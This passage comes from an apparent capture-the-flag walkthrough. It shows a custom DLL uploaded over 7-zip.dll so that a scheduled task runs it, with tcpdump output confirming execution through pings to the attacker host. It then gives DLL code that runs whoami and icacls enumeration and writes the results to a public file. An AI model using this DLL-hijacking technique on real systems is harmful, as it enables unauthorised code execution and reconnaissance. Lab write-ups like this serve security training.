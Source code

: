 ```
}

```

Given the complexity of what’s going on, I’m going to start with a simple `ping` to my host. I’ll set the build to Release x64, and select Build -> Build Solution.

![image-20221110073913824](https://0xdfimages.gitlab.io/img/image-20221110073913824.png)

It’s successful.

I’ll start `tcpdump` to look for ICMP packets, and upload this over `7-zip.dll`, and wait for the next scheduled task run. It works:

```

oxdf@hacky$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
12:39:57.992781 IP 10.10.11.147 > 10.10.14.6: ICMP echo request, id 3, seq 18400, length 40
12:39:57.992824 IP 10.10.14.6 > 10.10.11.147: ICMP echo reply, id 3, seq 18400, length 40
12:39:59.007392 IP 10.10.11.147 > 10.10.14.6: ICMP echo request, id 3, seq 18402, length 40
12:39:59.007425 IP 10.10.14.6 > 10.10.11.147: ICMP echo reply, id 3, seq 18402, length 40
12:40:00.039137 IP 10.10.11.147 > 10.10.14.6: ICMP echo request, id 3, seq 18404, length 40
12:40:00.039167 IP 10.10.14.6 > 10.10.11.147: ICMP echo reply, id 3, seq 18404, length 40
12:40:01.054422 IP 10.10.11.147 > 10.10.14.6: ICMP echo request, id 3, seq 18406, length 40
12:40:01.054468 IP 10.10.14.6 > 10.10.11.147: ICMP echo reply, id 3, seq 18406, length 40

```

So that’s execution.

### Enumeration Via Dll

To get a feel about where to go next, I’m going to get more information about the share by having the Dll write data to a file and read it via the shell as web. I’ll generate a new Dll body:

```

    case DLL_PROCESS_ATTACH:
        system("cmd.exe /c whoami /all > C:\\users\\public\\0xdf.txt");
        system("cmd.exe /c icacls C:\\share >> C:\\users\\public\\0xdf.txt");
        system("cmd.exe /c icacls C:\\share\\* >> C:\\users\\public\\0xdf.txt");
        system("cmd.exe /c icacls C:\\share\\scripts\\* >> C:\\users\\public\\0xdf.txt");
        system("cmd.exe /c ping 10.10.14.6");

```

I’m leaving the `ping` in there so that I have some indication when it runs.

I’ll upload it, and after a minute or so, I get pings. I’ll check with the shell, and there’s a file:

```

c:\Users\Public>dir
 Volume in drive C has no label.
 Volume Serial Number is BE61-D5E0

 Directory of c:\Users\Public

11/10/2022  07:40 PM    <DIR>          .
02/16/2022  10:00 PM    <DIR>          ..
11/10/2022  07:40 PM            11,072 0xdf.txt
09/24/2021  07:27 AM    <DIR>          Documents
09/15/2018  08:19 AM    <DIR>          Downloads
09/15/2018  08:19 AM    <DIR>          Music
09/15/2018  08:19 AM    <DIR>          Pictures
```